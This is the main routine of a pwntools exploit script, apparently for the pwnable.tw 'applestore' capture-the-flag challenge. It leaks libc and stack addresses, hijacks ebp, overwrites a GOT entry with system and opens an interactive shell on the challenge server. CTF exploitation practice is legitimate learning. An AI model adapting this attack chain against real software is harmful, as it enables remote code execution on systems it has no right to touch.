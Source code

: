 ```python
if __name__ =='__main__':
    if DEBUG:
        io = process("./applestore")
        # get_libc_addr(pidof(io)[0])
    else:
        io = remote("chall.pwnable.tw",10104)
    _bin = ELF("./applestore")
    libc = ELF("./libc_32.so.6")


    sol,cnts = _solve()
    get_iphone8(io,sol,cnts)
    # demo_stack_rewrite(io)
    libc.address = leak_libc(io, _bin) - libc.symbols["puts"] 
    print(f"leaked libc at {hex(libc.address)}")

    delete_ebp = leak_stack(io) + 0x20
    print(f"leaked ebp: {hex(delete_ebp)}")
    #gdb.attach(io, gdbscript="b *0x8048C08\nc\n")
    #sleep(1)
    hijack_ebp(io, delete_ebp)
    
    rewrite_got(io, libc.symbols["system"])

    io.interactive()
```



